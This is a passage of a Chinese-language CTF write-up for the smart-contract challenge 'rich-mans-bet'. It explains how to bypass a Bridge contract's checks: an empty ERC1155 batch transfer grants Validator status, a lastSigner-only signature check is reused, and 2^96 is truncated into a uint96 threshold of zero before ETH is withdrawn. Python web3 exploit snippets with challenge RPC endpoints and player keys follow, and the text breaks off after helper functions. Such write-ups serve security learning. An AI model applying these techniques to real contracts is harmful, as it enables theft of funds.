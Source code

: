接下来我们进行提款，上面提到了没有人能够提款，因此我们只能尝试让threshold变为0，而唯二能更改threshold的值的地方只有constructor和`changeBridgeSettings`两个地方，也就是说我们就是得更新设置，那么我们有需要成为Validator，而能成为Validator的地方就只有两个`onERC1155(Batch)Received`了，也就是说我们就是得向Bridge转入代币...吗？

仔细查看ERC1155的实现，我们发现如果id和amount两个数组为空数组（即转入0种代币）也是会正常调用目标ERC1155Receiver的`onERC1155BatchReceived`函数的，而Bridge中并没有检测转入的代币种类是否为0，所以我们只需要转入0种代币即可：

```Python
make_validator = lambda acc: send_transaction(
    admin_nft.functions.safeBatchTransferFrom(
        acc.address, bridge.address, [], [], w3.to_bytes(text="")
    ),
    acc,
    gas=150000,
)
```

然后进入到`changeBridgeSettings`的部分，我们发现验证签名是否有效的时候只会记录`lastSigner`并和其比对，那么我们只需要有至少2个签名就能进行无限的验证，从而达到刷Power的目的，因此我们只需要再新创建一个地址并让它签一下名就行了，当然前置是需要这个地址也成为Validator；修改的设置中我们只需要修改threshold，但是这个新的threshold必须大于1...看起来没有办法，但是仔细看一下函数传入的数据类型：是一个uint256，而最后使用的threshold是一个uint96，中间进行了一次显式类型转换，也就是说如果我们传入的数很大，类型转换会产生数据丢失，比如我们传入的newThreshold是$$2^{96}$$，那么最后我们会有threshold = uint96(newThreshold) = 0

所以我们根据上面的理论更新完设置后直接withdrawEth就行了，签名列表为空就行，最后的脚本如下：（有些多余的ABI可以删掉，因为没有调用到）

```Python
# 3f716403f4394aa3c38997b1aeebed19
# [rich-mans-bet] RPC Endpoints:
# [rich-mans-bet]     - http://46.101.119.98:8545/oeYWbzukdrAnjozjEiXuGxtH/main
# [rich-mans-bet]     - ws://46.101.119.98:8545/oeYWbzukdrAnjozjEiXuGxtH/main/ws
#
# [rich-mans-bet] The Player private key:         0x2f24a9c9f818b1315f24eb909f85cefb6ea66bc31fc77744778acc400d6d3ba0
# [rich-mans-bet] The Challenge contract address: 0x3346B289790b9328b4661193DaEADDcD6a4a5B3a

from web3 import Web3
from eth_account import Account
from eth_account.messages import encode_typed_data, encode_defunct
import eth_abi
import time

RPC_URL = "http://46.101.119.98:8545/emjhmdIoWPlMCHBRzbGAHdBe/main"
w3 = Web3(Web3.HTTPProvider(RPC_URL))

PRIVATE_KEY = "0xc9607d2731ff52283f710a04251fa72f9819b072cd2c44e3f5367c9ee6dbf731"
CHALLENGE_ADDRESS = "0x553c30968D4233048Bd9E2153D442ab24511960B"
account = Account.from_key(PRIVATE_KEY)

def send_transaction(contract_function, account, nonce_offset=0, value=0, gas=500000):
    """Helper function to send transactions"""
    transaction = contract_function.build_transaction(
        {
            "from": account.address,
            "nonce": w3.eth.get_transaction_count(account.address) + nonce_offset,
            "gas": gas,
            "maxFeePerGas": w3.eth.gas_price * 2,
            "maxPriorityFeePerGas": w3.eth.gas_price,
            "value": w3.to_wei(value, "ether"),
        }
    )
    return send_signed(transaction, account)

def send_signed(transaction, account):
    signed_txn = w3.eth.account.sign_transaction(transaction, account.key.hex())
    tx_hash = w3.eth.send_raw_transaction(signed_txn.raw_transaction)
    receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
    return receipt
```
